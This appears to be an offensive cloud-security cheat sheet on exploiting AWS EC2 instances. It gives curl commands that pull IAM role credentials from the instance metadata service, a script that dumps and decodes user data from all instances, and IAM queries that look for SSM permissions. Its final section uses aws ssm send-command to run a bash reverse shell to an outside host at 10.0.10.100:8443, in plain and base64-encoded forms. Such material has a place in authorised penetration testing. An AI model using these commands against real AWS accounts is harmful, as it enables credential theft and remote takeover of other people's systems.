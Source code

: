 ___
Exploit misconfigurations in EC2 metadata, SSM, or user-data to gain code execution or extract credentials.
### Instance Metadata Service (IMDS) Enumeration
---
IMDSv1 (Unauthenticated Requests)
```bash
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/hostname
curl http://169.254.169.254/latest/meta-data/ami-id
curl http://169.254.169.254/latest/meta-data/instance-type
curl http://169.254.169.254/latest/meta-data/public-ipv4
curl http://169.254.169.254/latest/meta-data/security-groups
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
```
If a role is attached and has broad permissions (e.g., `AllowEC2ToReadSecrets`), you can retrieve secrets directly:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/AllowEC2ToReadSecrets
```
IMDSv2 (Token-Based Access)
```bash
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
     http://169.254.169.254/latest/meta-data/iam/security-credentials/AllowEC2ToReadSecrets
```
### EC2 User Data Enumeration
---
Pull user data from all instances:
```bash
# userDataEnum.sh
#!/bin/bash

instance_ids=$(aws ec2 describe-instances --query 'Reservations[].Instances[].InstanceId' --output text)
for instance_id in $instance_ids; do
    echo "Getting userData for instance: $instance_id"
    user_data=$(aws ec2 describe-instance-attribute \
        --instance-id "$instance_id" \
        --attribute userData --output text 2>/dev/null)
    if [ -n "$user_data" ]; then
        # Strip "USERDATA" prefix, then base64-decode
        user_data=$(echo "$user_data" | sed 's/^USERDATAs*//' | sed '1d' | sed 's/^[[:space:]]*//')
        echo "Base64-encoded userData for $instance_id:"
        echo "$user_data"
        echo "Decoded userData for $instance_id:"
        echo "$user_data" | base64 -d
    else
        echo "No userData for $instance_id"
    fi
    echo "-----------------------------------------"
done

```
### AWS Systems Manager (SSM) Command Execution
---
Check for SSM perms
```bash
aws iam list-attached-user-policies --user-name <USERNAME>
```
If you find a policy ARN such as `AllowSSMRunShellCommands`, retrieve its document:
```bash
aws iam get-policy --policy-arn arn:aws:iam::<ACCOUNT_ID>:policy/AllowSSMRunShellCommands
aws iam get-policy-version \
  --policy-arn arn:aws:iam::<ACCOUNT_ID>:policy/AllowSSMRunShellCommands \
  --version-id v1
```
Look for `"ssm:SendCommand"` in the document’s `"Statement"` and note which targets (e.g., `"Resource": ["arn:aws:ec2:us-east-1:<ACCOUNT_ID>:instance/i-0abcd1234"]`) are allowed.
Send a Command via SSM (Assuming Permissions Exist)
```bash
aws ssm send-command \
  --instance-ids "i-0abcd1234" \
  --document-name "AWS-RunShellScript" \
  --comment "ReverseShell" \
  --parameters '{"commands":["bash -c \'bash -i >& /dev/tcp/10.0.10.100/8443 0>&1\'"]}' \
  --output text
```
If you need to base64-encode the payload to avoid shell‐quoting issues:
```bash
PAYLOAD=$(echo "bash -i >& /dev/tcp/10.0.10.100/8443 0>&1" | base64)
aws ssm send-command \
  --instance-ids "i-0abcd1234" \
  --document-name "AWS-RunShellScript" \
  --comment "ReverseShell" \
  --parameters "{\"commands\":[\"echo $PAYLOAD | base64 -d | bash\"]}" \
  --output text
```
Debug a Failed SSM Invocation:
```bash
aws ssm list-command-invocations \
  --instance-id "i-0abcd1234" \
  --command-id "cb542971-efb0-4f08-9281-9ca010a4c0ef" \
  --details
```

